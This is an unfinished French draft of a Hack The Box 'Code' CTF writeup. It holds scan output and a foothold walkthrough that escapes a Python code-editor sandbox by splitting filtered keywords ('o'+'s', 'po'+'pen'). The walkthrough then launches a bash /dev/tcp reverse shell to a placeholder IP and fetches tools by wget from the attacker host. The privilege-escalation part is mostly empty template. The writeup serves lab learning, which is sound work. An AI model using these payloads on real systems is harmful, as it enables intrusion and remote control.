




---
# === Archetype writeups – v1 (stable) ===
# === Archetype: writeups (Page Bundle) ===
# Copié vers content/writeups/<nom_ctf>/index.md

# H1 SEO (via title, pas dans le markdown)
title: "Code — HTB Easy Writeup & Walkthrough"
linkTitle: "Code"
slug: "code"
date: 2026-05-04T14:55:17+02:00
#lastmod: 2026-05-04T14:55:17+02:00
draft: true

# --- PaperMod / navigation ---
type: "writeups"
summary: "Summary générique de machine CTF"
description: "Description générique de machine CTF"
tags: ["Hack The Box","HTB Easy","linux-privesc"]
categories: ["Mes writeups"]

# Ajouter ensuite uniquement des tags techniques réellement utilisés dans le writeup,
# par exemple :
# - prise de pied : "Web", "SSH", "FTP"
# - faille : "XSS", "LFI", "RCE", "Path Traversal", "Shellshock"
# - techno / produit : "Grafana", "Chamilo", "CMS Made Simple", "js2py"
# - CVE : "CVE-2021-43798"
# - pivot : "Credential Reuse"
# - privesc spécifique : "sudo", "Docker", "Cron", "ACL", "PATH Hijacking", "tmux", "npbackup", "pspy64"

# --- TOC & mise en page ---
ShowToc: true
TocOpen: true
# toc_droite: 1

# --- Cover / images (Page Bundle) ---
cover:
  image: "image.png"
  alt: "Code"
  caption: ""
  relative: true
  hidden: false
  hiddenInList: false
  hiddenInSingle: false

# --- Paramètres CTF (placeholders à éditer après création) ---
ctf:
  platform: "Hack The Box"
  machine: "Code"
  difficulty: "Easy | Medium | Hard"
  target_ip: "10.129.x.x"
  skills: ["Enumeration","Web","Privilege Escalation"]
  time_spent: "2h"
  # vpn_ip: "10.10.14.xx"
  # notes: "Points d'attention…"

# --- Options diverses ---
# weight: 10
# ShowBreadCrumbs: true
# ShowPostNavLinks: true

# --- SEO Reminders (à compléter après création) ---
# 1) Titre :
#    - Doit contenir : Nom Machine + HTB Easy + Writeup
# 2) Description :
#    - Résumé 130–160 caractères
#    - Style “Mix Parfait” : pédagogique + technique
#    - Exemple : "Writeup de <machine> (HTB Easy) : énumération claire, analyse de la vulnérabilité et escalade structurée."
# 3) ALT (image de couverture) :
#    - Mixer vulnérabilité + pédagogie + progression
#    - Exemple : "Machine <machine> HTB Easy vulnérable à <faille>, expliquée étape par étape jusqu'à l'escalade."
# 4) Tags :
#    - Toujours ["Easy"]
#    - Ajouter d'autres selon le thème : ["web","shellshock","heartbleed","enum"]
# 5) Structure :
#    - H1 = titre
#    - Description = meta description + preview social
#    - ALT = SEO image + accessibilité

# --- SEO CHECKLIST (à valider avant publication) ---

# [ ] 1) Titre (title + H1)
#     - Contient : Nom Machine + HTB Easy + Writeup
#     - Unique sur le site
#     - Lisible hors contexte HTB

# [ ] 2) Description (meta)
#     - 130–160 caractères
#     - Pas générique
#     - Ton pédagogique + technique
#     - Exemple :
#       "Writeup de <machine> (HTB Easy) : énumération claire,
#        compréhension de la vulnérabilité et escalade structurée."

# [ ] 3) Image de couverture
#     - Présente (ou fallback)
#     - Nom explicite
#     - Dimensions cohérentes

# [ ] 4) ALT de l’image
#     - Décrit la machine + l’approche
#     - Pédagogique (pas juste technique)
#     - Exemple :
#       "Machine <machine> HTB Easy exploitée étape par étape,
#        de l’énumération à l’escalade de privilèges."

# [ ] 5) Tags
#     - Toujours inclure la difficulté (ex: "Easy")
#     - Ajouter uniquement des tags techniques réels

# [ ] 6) Structure du contenu
#     - Un seul H1
#     - Sections claires et hiérarchisées
#     - Pas de sections SEO artificielles

---

<!-- ====================================================================
Tableau d'infos (modèle) — Remplacer les valeurs entre <...> après création.
Aucun templating Hugo dans le corps, pour éviter les erreurs d'archetype.
====================================================================
| Champ          | Valeur |
|----------------|--------|
| **Plateforme** | <Hack The Box> |
| **Machine**    | <Code> |
| **Difficulté** | <Easy / Medium / Hard> |
| **Cible**      | <10.129.x.x> |
| **Durée**      | <2h> |
| **Compétences**| <Enumeration, Web, Privilege Escalation> |

---
-->
## Introduction

- Contexte (source, thème, objectif).
- Hypothèses initiales (services attendus, techno probable).
- Objectifs : obtenir `user.txt` puis `root.txt`.

---

## Énumération



### Scan initial

Le scan TCP complet (`scans_nmap/full_tcp_scan.txt`) montre les ports ouverts suivants :

```bash
# Nmap 7.99 scan initiated [date] as: /usr/lib/nmap/nmap --privileged -Pn -p- --min-rate 5000 -T4 -oN scans_nmap/full_tcp_scan.txt code.htb
Nmap scan report for code.htb (10.129.x.x)
Host is up (0.038s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
5000/tcp open  upnp

# Nmap done at [date] -- 1 IP address (1 host up) scanned in 7.85 seconds
nmap -sCV -p- -T4 -oN scans/nmap_full.txt code.htb
```

### Scan FTP/SMB (si services détectés)

Après le scan initial, le script enchaîne automatiquement avec une phase d’énumération ciblée **FTP/SMB** si l’un des services suivants est détecté :

- **FTP** sur le port **21**
- **SMB** sur le port **139** et/ou **445**

Les résultats sont enregistrés dans (`scans_nmap/enum_ftp_smb_scan.txt`) :

```bash
# mon-nmap — ENUM FTP / SMB
# Target : code.htb
# Date   : [date]

Aucun service FTP (21) ni SMB (139/445) détecté.
Ports ouverts détectés : 22,5000
```


### Scan agressif

Le script enchaîne ensuite automatiquement sur un scan agressif orienté vulnérabilités.

Ce scan fournit des informations détaillées sur les services et versions détectés.

Les résultats sont enregistrés dans (`scans_nmap/aggressive_vuln_scan.txt`) :

```bash
[+] Scan agressif orienté vulnérabilités (CTF-perfect LEGACY) pour code.htb
[+] Commande utilisée :
    nmap -Pn -A -sV -p"22,5000" --script="(http-vuln-* or http-shellshock or ssl-heartbleed) and not (http-vuln-cve2017-1001000 or http-sql-injection or ssl-cert or sslv2 or ssl-dh-params)" --script-timeout=30s -T4 "code.htb"

# Nmap 7.99 scan initiated [date] as: /usr/lib/nmap/nmap --privileged -Pn -A -sV -p22,5000 "--script=(http-vuln-* or http-shellshock or ssl-heartbleed) and not (http-vuln-cve2017-1001000 or http-sql-injection or ssl-cert or sslv2 or ssl-dh-params)" --script-timeout=30s -T4 -oN scans_nmap/aggressive_vuln_scan_raw.txt code.htb
Nmap scan report for code.htb (10.129.x.x)
Host is up (0.014s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
5000/tcp open  http    Gunicorn 20.0.4
|_http-server-header: gunicorn/20.0.4
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19, Linux 5.0 - 5.14
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT      ADDRESS
1   54.83 ms 10.10.16.1
2   7.22 ms  code.htb (10.129.27.200)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at [date] -- 1 IP address (1 host up) scanned in 10.32 seconds nmap -Pn -A -sV -p"22,2222,8080,35627,42277" --script="http-vuln-*,http-shellshock,http-sql-injection,ssl-cert,ssl-heartbleed,sslv2,ssl-dh-params" --script-timeout=30s -T4 "code.htb"
```


### Scan ciblé CMS

Le script exécute ensuite un scan ciblé CMS (scans_nmap/cms_vuln_scan.txt).

```bash
# Nmap 7.99 scan initiated [date] as: /usr/lib/nmap/nmap --privileged -Pn -sV -p22,5000 --script=http-wordpress-enum,http-wordpress-brute,http-wordpress-users,http-drupal-enum,http-drupal-enum-users,http-joomla-brute,http-generator,http-robots.txt,http-title,http-headers,http-methods,http-enum,http-devframework,http-cakephp-version,http-php-version,http-config-backup,http-backup-finder,http-sitemap-generator --script-timeout=30s -T4 -oN scans_nmap/cms_vuln_scan.txt code.htb
Nmap scan report for code.htb (10.129.x.x)
Host is up (0.014s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
5000/tcp open  http    Gunicorn 20.0.4
|_http-server-header: gunicorn/20.0.4
|_http-devframework: Couldn't determine the underlying framework or CMS. Try increasing 'httpspider.maxpagecount' value to spider more pages.
| http-methods: 
|_  Supported Methods: HEAD OPTIONS GET
|_http-title: Python Code Editor
| http-sitemap-generator: 
|   Directory structure:
|     /
|       Other: 3
|     /static/css/
|       css: 1
|   Longest directory structure:
|     Depth: 2
|     Dir: /static/css/
|   Total files found (by extension):
|_    Other: 3; css: 1
| http-headers: 
|   Server: gunicorn/20.0.4
|   Date: Mon, 04 May 2026 13:01:03 GMT
|   Connection: close
|   Content-Type: text/html; charset=utf-8
|   Content-Length: 3435
|   Vary: Cookie
|   
|_  (Request type: HEAD)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at [date] -- 1 IP address (1 host up) scanned in 37.54 seconds

```


### Scan UDP rapide

Le script lance également un scan UDP rapide afin de détecter d’éventuels services supplémentaires (`scans_nmap/udp_vuln_scan.txt`).

```bash
# Nmap 7.99 scan initiated [date] as: /usr/lib/nmap/nmap --privileged -n -Pn -sU --top-ports 20 -T4 -oN scans_nmap/udp_vuln_scan.txt code.htb
Warning: 10.129.27.200 giving up on port because retransmission cap hit (6).
Nmap scan report for code.htb (10.129.x.x)
Host is up (0.013s latency).

PORT      STATE         SERVICE
53/udp    open|filtered domain
67/udp    open|filtered dhcps
68/udp    open|filtered dhcpc
69/udp    closed        tftp
123/udp   closed        ntp
135/udp   closed        msrpc
137/udp   closed        netbios-ns
138/udp   closed        netbios-dgm
139/udp   closed        netbios-ssn
161/udp   closed        snmp
162/udp   open|filtered snmptrap
445/udp   closed        microsoft-ds
500/udp   closed        isakmp
514/udp   closed        syslog
520/udp   closed        route
631/udp   open|filtered ipp
1434/udp  closed        ms-sql-m
1900/udp  closed        upnp
4500/udp  closed        nat-t-ike
49152/udp closed        unknown

# Nmap done at [date] -- 1 IP address (1 host up) scanned in 10.80 seconds

```


### Énumération des chemins web
Pour la découverte des chemins web, tu peux utiliser le script dédié 

Le scan agressif t'a montré que le port 5000 est le seul port http (`http-server-header: gunicorn/20.0.4`)

```bash
mon-recoweb code.htb:5000

# Résultats dans le répertoire scans_recoweb/code.htn_500/
#  - scans_recoweb/code.htn_500/RESULTS_SUMMARY.txt     ← vue d’ensemble des découvertes
#  - scans_recoweb/code.htn_500/dirb.log
#  - scans_recoweb/code.htn_500/dirb_hits.txt
#  - scans_recoweb/code.htn_500/ffuf_dirs.txt
#  - scans_recoweb/code.htn_500/ffuf_dirs_hits.txt
#  - scans_recoweb/code.htn_500/ffuf_files.txt
#  - scans_recoweb/code.htn_500/ffuf_files_hits.txt
#  - scans_recoweb/code.htn_500/ffuf_dirs.json
#  - scans_recoweb/code.htn_500/ffuf_files.json

```

Le fichier `RESULTS_SUMMARY.txt`  regroupe les chemins découverts, sans parcourir l’ensemble des logs générés.

```bash
===== mon-recoweb — RÉSUMÉ DES RÉSULTATS =====
Commande principale : /home/kali/.local/bin/mes-scripts/mon-recoweb
Script              : mon-recoweb v2.2.1

Cible        : code.htb:5000
Périmètre    : /
Date début   : [date]

Commandes exécutées (exactes) :

[dirb — découverte initiale]
dirb http://code.htb:5000/ /usr/share/wordlists/dirb/common.txt -r | tee scans_recoweb/code.htb_5000/dirb.log

[ffuf — énumération des répertoires]
ffuf -u http://code.htb:5000/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -t 30 -timeout 10 -fc 404 -of json -o scans_recoweb/code.htb_5000/ffuf_dirs.json 2>&1 | tee scans_recoweb/code.htb_5000/ffuf_dirs.log

[ffuf — énumération des fichiers]
ffuf -u http://code.htb:5000/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt -t 30 -timeout 10 -fc 404 -of json -o scans_recoweb/code.htb_5000/ffuf_files.json 2>&1 | tee scans_recoweb/code.htb_5000/ffuf_files.log

Processus de génération des résultats :
- Les sorties JSON produites par ffuf constituent la source de vérité.
- Les entrées pertinentes sont extraites via jq (URL, code HTTP, taille de réponse).
- Les réponses assimilables à des soft-404 sont filtrées par comparaison des tailles et des codes HTTP.
- Les URLs finales sont reconstruites à partir du périmètre scanné (racine du site ou sous-répertoire ciblé).
- Les résultats sont normalisés sous la forme :
    http://cible/chemin (CODE:xxx|SIZE:yyy)
- Les chemins sont ensuite classés par type :
    • répertoires (/chemin/)
    • fichiers (/chemin.ext)
- Le fichier RESULTS_SUMMARY.txt est généré par agrégation finale, sans retraitement manuel,
  garantissant la reproductibilité complète du scan.

----------------------------------------------------

=== Résultat global (agrégé) ===

http://code.htb:5000/about (CODE:200|SIZE:818)
http://code.htb:5000/codes (CODE:302|SIZE:199)
http://code.htb:5000/codes/ (CODE:302|SIZE:199)
http://code.htb:5000/login (CODE:200|SIZE:730)
http://code.htb:5000/logout (CODE:302|SIZE:189)

=== Détails par outil ===

[DIRB]
http://code.htb:5000/about (CODE:200|SIZE:818)
http://code.htb:5000/codes (CODE:302|SIZE:199)
http://code.htb:5000/login (CODE:200|SIZE:730)
http://code.htb:5000/logout (CODE:302|SIZE:189)

[FFUF — DIRECTORIES]
http://code.htb:5000/codes/ (CODE:302|SIZE:199)

[FFUF — FILES]

```


### Recherche de vhosts

Enfin, tu peux tester la présence de vhosts à l’aide du script .

```bash
Continuer quand même le scan ? [o/N] o
```


```bash
=== mon-subdomains code.htb START ===
Script       : mon-subdomains
Version      : mon-subdomains 2.0.0
Date         : [date]
Domaine      : code.htb
IP           : 10.129.x.x
Mode         : large
Master       : /usr/share/wordlists/htb-dns-vh-5000.txt
Codes        : 200,301,302,401,403  (strict=1)

VHOST totaux : 0
  - (aucun)

--- Détails par port ---
Port 5000 (http)
  Baseline#1: code=200 size=3435 words=234 (Host=oe9cfsdzja.code.htb)
  Baseline#2: code=200 size=3435 words=234 (Host=tfsazfilnf.code.htb)
  Baseline#3: code=200 size=3435 words=234 (Host=33q5d01wj0.code.htb)
  VHOST (0)
    - (fuzzing sauté : wildcard probable)
    - (explication : réponse identique quel que soit Host → vhost-fuzzing non discriminant)


=== mon-subdomains code.htb END ===
```

Si aucun vhost distinct n’est identifié, ce fichier confirme l’absence de résultats supplémentaires.

## Prise pied

L’énumération met en évidence une surface d’attaque réduite, avec uniquement le port **22 (SSH)** et une application web exposée sur le port **5000**.

Le scan CMS n’a révélé aucune technologie connue, ce qui permet d’écarter l’hypothèse d’un CMS standard. 

Par ailleurs, le service web utilise **Gunicorn 20.0.4**, indiquant un backend Python (Flask, Django ou application équivalente).

Ces éléments orientent l’analyse vers une application spécifique, dont le comportement doit être étudié en détail.  

L’approche commence donc par une exploration de l’interface web depuis ton navigateur, afin d’identifier les fonctionnalités disponibles et les éventuels points d’entrée exploitables.




### Exploration de l’interface web

L’application se présente comme un éditeur de code Python en ligne, accessible sans authentification.

Plusieurs sections sont disponibles dans le menu :

- **About**


- **Register**



- **Login**




L’exploration de ces pages ne révèle pas de fonctionnalité exploitable, et les mécanismes d’inscription et d’authentification ne donnent pas d’indice particulier à ce stade.

L’interface repose principalement sur deux actions :

- **Run** : exécuter du code Python
- **Save** : enregistrer un script

Un test simple permet de valider le fonctionnement :

```python
print("Hello, world!")
```

Le résultat s’affiche immédiatement, ce qui confirme que le code est exécuté côté serveur.

La fonctionnalité **Save** nécessite une authentification. Tu pourrais créer un compte, mais ce n’est pas nécessaire : **Run** fonctionne déjà sans authentification et te permet d’interagir directement avec le backend.
Dans ce contexte, **Save** peut être écartée.

En testant différentes instructions, tu observes que certaines sont bloquées :

```text
Use of restricted keywords is not allowed.
```

Cela indique la présence d’un filtrage côté application.

Ton objectif devient alors de contourner ce filtrage pour transformer cette exécution Python en exécution de commandes système.

Pour cela, tu analyses l’environnement Python en place à l’aide de `globals()` afin d’identifier les modules déjà chargés.

Si le module `os` est accessible, tu peux exécuter des commandes système via `popen()`, avec pour objectif d’obtenir un reverse shell.

Le chemin logique devient donc :

`globals()` → `os` → `popen()` → exécution de commande → reverse shell

### Analyse du filtrage et exploitation

Tu affiches le contenu de `globals()` pour vérifier les modules accessibles :

```python
print(globals().keys())
```

La sortie montre que le module `os` est disponible, ce qui te permet d’envisager l’exécution de commandes système.

Une première tentative consiste à récupérer `os` depuis `globals()`, puis à appeler `popen` et `read` avec `getattr()` :

```python
m = globals()['os']
p = getattr(m, 'popen')("id")
print(getattr(p, 'read')())
```

> En Python, `getattr(objet, "nom")` permet d’appeler une fonction en utilisant son nom sous forme de texte.

Cette commande échoue avec le message :

```text
Use of restricted keywords is not allowed.
```

Tu en déduis que certains termes utilisés dans cette instruction sont filtrés.

Tu commences alors à essayer de contourner ces restrictions.

- D’abord, tu reconstruis dynamiquement le nom du module :

```python
m = globals()['o'+'s']
p = getattr(m, 'popen')("id")
print(getattr(p, 'read')())
```

Le filtrage est toujours présent.

- Tu appliques ensuite la même logique à `popen` :

```python
m = globals()['o'+'s']
p = getattr(m, 'po'+'pen')("id")
print(getattr(p, 'read')())
```

Le blocage persiste.

- Enfin, tu contournes également `read` :

```python
m = globals()['o'+'s']
p = getattr(m, 'po'+'pen')("id")
print(getattr(p, 're'+'ad')())
```

Cette fois, la commande s’exécute correctement et le résultat de `id` s’affiche.

```bash
uid=1001(app-production) gid=1001(app-production) groups=1001(app-production) 
```

Cela te montre que le filtrage repose sur certains mots et peut être contourné en les reconstruisant dynamiquement.

Ces tests confirment que :

- le code est exécuté côté serveur  
- l’accès au système est possible  
- le filtrage peut être contourné  

Tu disposes donc d’une **RCE (Remote Code Execution)** exploitable.

------

### Obtention d’un reverse shell

Une fois la RCE confirmée, l’objectif est d’obtenir un accès interactif à la machine.

Tu adaptes le payload précédent pour lancer un reverse shell :

```python
m = globals()['o'+'s']
p = getattr(m, 'po'+'pen')("bash -c 'bash -i >& /dev/tcp/TON_IP/4444 0>&1'")
print(getattr(p, 're'+'ad')())
```

Avant d’exécuter ce code, tu démarres un listener sur ta machine Kali :

```bash
nc -lvnp 4444
```

À l’exécution via **Run**, la cible se connecte à ton listener et tu obtiens un shell.

Tu stabilises ensuite le shell via la recette .





---

## Escalade de privilèges



### Sudo -l
Tu commences toujours par vérifier les droits sudo :

### Exploration du contexte utilisateur

Avant d’aller plus loin, tu vérifies le contexte dans lequel tu te trouves :

```bash
whoami
id
pwd
uname -a
hostname
```

Résultat :

### Recherche de binaires SUID
Tu poursuis l’énumération en recherchant les **binaires SUID**, qui permettent parfois d’exécuter certaines commandes avec les privilèges de leur propriétaire.

```bash
find / -perm -4000 -type f 2>/dev/null
```

La liste obtenue ne contient que des binaires système classiques tels que :

```texte
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/newgrp
...
```

Ces binaires sont classiques sur un système Linux et sont généralement présents par défaut.
Tu n’identifies aucun binaire inhabituel ou directement exploitable.

### Analyse des Linux capabilities

Tu vérifies ensuite si certains binaires disposent de **capabilities Linux**, qui permettent à un programme d’effectuer certaines actions privilégiées sans être exécuté en root ou via un binaire SUID.

La vérification se fait avec la commande suivante :

```bash
getcap -r / 2>/dev/null
```

Ici, tu ne trouves aucune capability inhabituelle ni aucun binaire exploitable.

### Vérification des SUID avec suid3num.py

Pour compléter l’analyse des binaires SUID, tu utilises l’outil suid3num.py, qui permet d’identifier rapidement :

les binaires SUID intéressants
leur présence éventuelle dans GTFOBins

Tu le télécharges et l’exécutes depuis un répertoire en mémoire (/dev/shm) :

```bash
cd /dev/shm
wget http://10.10.x.x:8000/suid3num.py
python3 suid3num.py
```
L’outil confirme que :

- tous les binaires SUID présents sont standards
- aucun binaire personnalisé n’est identifié
- aucun binaire exploitable via GTFOBins n’est détecté
  

Cette vérification confirme que la piste des SUID ne mène à rien dans ce cas précis.

### Inspection des tâches cron
Tu vérifies ensuite les **tâches planifiées (cron)**, car certains scripts exécutés automatiquement par le système peuvent être modifiables par un utilisateur et permettre une élévation de privilèges.

Les crons système peuvent être consultés avec :

```bash
cat /etc/crontab
```

### Analyse des services locaux
Tu vérifies ensuite les **services en cours d’exécution**, ce qui permet parfois d’identifier une application vulnérable ou un service mal configuré.

```
netstat -tulpn
```

### pspy64
Tu lances également pspy64 dans une deuxième session SSH afin d’observer en temps réel les processus exécutés sur la machine, notamment ceux lancés par root.

Tu le télécharges et l’exécutes depuis un répertoire persistant (/var/tmp) :

cd /var/tmp
wget http://10.10.x.x:8000/pspy64
chmod +x pspy64
./pspy64

L’objectif est d’identifier des tâches exécutées automatiquement par root pouvant être exploitables.

Dans ce cas précis, aucun processus exploitable n’apparaît dans cette deuxième session, même en redémarrant la première session SSH.

### Conclusion de l’énumération manuelle

### Analyse avec linpeas.sh
Dans **LinPEAS**, les vulnérabilités potentielles sont classées et surlignées par couleur.


---

## Conclusion

- Récapitulatif de la chaîne d'attaque (du scan à root).
- Vulnérabilités exploitées & combinaisons.
- Conseils de mitigation et détection.
- Points d'apprentissage personnels.

---

## Pièces jointes (optionnel)

- Scripts, one-liners, captures, notes.  
- Arbo conseillée : `files/<nom_ctf>/…`

